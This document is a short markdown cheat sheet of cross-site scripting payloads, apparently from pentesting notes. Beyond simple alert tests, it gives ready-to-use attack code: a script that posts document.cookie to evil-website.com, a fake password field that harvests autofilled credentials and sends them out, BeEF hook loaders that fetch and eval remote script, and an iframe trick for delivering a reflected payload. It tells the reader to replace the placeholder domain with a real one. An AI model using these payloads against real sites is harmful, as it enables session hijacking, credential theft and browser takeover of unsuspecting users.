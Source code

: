 # Cross-Site Scripting

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}

## HTML Context

```
<script>alert(document.cookie)</script>
```

```
<img src=x onerror=alert(document.cookie)>
```

## XSS Exploit

### Steal Cookie

Replace `evil-website.com` in the code with the actual domain

```
<script>
fetch("https://evil-website.com", {
  method: "POST",
  mode: "no-cors",
  body: JSON.stringify({ cookie: document.cookie }),
});
</script>
```

### Steal Password

* Only for users who have enabled autofill passwords
* Replace `evil-website.com` in the code with the actual domain

```
<input name="username" id="username" />
<input
    name="password"
    id="password"
    type="password"
    onchange="if(this.value.length); fetch('https://evil-website.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});"
/>
```

### Hook Browser (beef)

```
<script src="http://evil-website.com:3000/hook.js"></script>
```

```
<body
    onload="fetch('http://evil-website.com:3000/hook.js')
        .then(response => response.text())
        .then(script => eval(script))"
        .catch(error => console.error('Error:', error));
>
```

```
<body
    onload="
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://evil-website.com:3000/hook.js', true);
    xhr.onreadystatechange = function () {
        if (xhr.readyState == 4 && xhr.status == 200)
            eval(xhr.responseText);
    };
    xhr.send();
"
>
```

## Experiment

### `onresize` event (GET)

* You need to start an HTTP service for the victim to access
* Replace `vulnerable-website.com` in the code with the actual domain
* Replace `<xss-parameter>` in the code with the actual parameter.
* Replace `<%3Cbody%20onresize=%22print()%22%3E>` in the code with the actual payload.
  * The decoded value is x `<body onresize="print()">`

```
<br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br />

<iframe
    src="https://vulnerable-website.com/?<xss-parameter>=<%3Cbody%20onresize=%22print()%22%3E>"
    onload="this.style.width='0'; this.style.height='0'"
></iframe>
```
